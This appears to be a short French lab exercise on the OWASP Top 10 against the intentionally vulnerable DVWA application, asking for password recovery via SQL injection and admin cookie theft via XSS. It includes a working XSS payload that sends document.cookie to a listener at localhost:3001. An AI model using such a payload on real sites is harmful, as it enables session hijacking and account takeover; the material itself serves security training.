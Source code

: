 ### TOP 10 OWASP

1. Dans l'application DVWA, en utilisant une injection sql, retrouvez les mots de passes des utilisateurs.
2. Dans l'application DVWA, en utilisant une injection xss, récupérez le cookie de l'adminstrateur.
```
<script>document.write('<img src="http://localhost:3001/cookie?cookie='+document.cookie+'" />')</script>
```